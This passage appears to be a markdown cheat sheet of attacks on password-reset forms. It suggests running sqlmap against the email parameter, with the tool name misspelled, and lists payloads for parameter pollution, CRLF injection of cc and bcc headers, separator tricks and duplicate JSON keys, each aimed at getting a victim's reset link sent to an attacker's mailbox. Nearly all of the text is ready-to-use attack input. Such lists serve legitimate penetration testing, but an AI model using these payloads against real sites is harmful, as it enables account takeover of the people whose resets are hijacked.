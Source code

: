 #### Try sqlmap in the email parameter as backend involvement may occur 
````
sqlpmap -r pass_reset.txt -p email
````


#### Double parameter (aka. HPP / HTTP parameter pollution):
- email=victim@xyz.tld&email=hacker@xyz.tld
#### Carbon copy:
- email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld
#### Using separators:
- email=victim@xyz.tld,hacker@xyz.tld
- email=victim@xyz.tld%20hacker@xyz.tld
- email=victim@xyz.tld|hacker@xyz.tld
#### No domain:
- email=victim
- email=victim@xyz
#### JSON table:
- {"email":["victim@xyz.tld","hacker@xyz.tld"]}

#### two JSON emails(comma separator)
````
{"email":"victim@mail.com","email":"attacker@mail.com"}
````
#### Exploiting $to parameter in SMTP header injection
- using semicolon separator
````
{"email":"Victim@gmail.com;Attacker@gmail.com","email":"Victim@gmail.com"}
{"email":"Victim@gmail.com","email":"Victim@gmail.com;Attacker@gmail.com"}
````
- using SPACE separator
````
{"email":"Victim@gmail.com%20Attacker@gmail.com","email":"Victim@gmail.com"}
{"email":"Victim@gmail.com","email":"Victim@gmail.com%20Attacker@gmail.com"}
````
#### CRLF Injection
- In Unix system(\n url encoded)

using carbon copy
````
{"email":"Victim@mail.com%0Acc:Attacker@mail.com","email":"Victim@mail.com"}
{"email":"Victim@mail.com","email":"Victim@mail.com%0Acc:Attacker@mail.com"}
````
using blind carbon copy
 ````
 {"email": "Victim@mail.com%0Abcc:Attacker@mail.com","email":"Victim@mail.com"}
 {"email":"Victim@mail.com","email":"Victim@mail.com%0Abcc:Attacker@mail.com"}
 ````
- In Windows system(\r\n)
 
 using carbon copy
 ````
 {"email":"Victim@mail.com%0D%0Acc:Attacker@mail.com","email":"Victim@mail.com"}
 {"email":"Victim@mail.com","email":"Victim@mail.com%0D%0Acc:Attacker@mail.com"}
 ````
 using blind carbon copy 
 ````
 {"email": "Victim@mail.com%0D%0Abcc:Attacker@mail.com","email":"Victim@mail.com"}
 {"email":"Victim@mail.com","email": "Victim@mail.com%0D%0Abcc:Attacker@mail.com"}
 ````

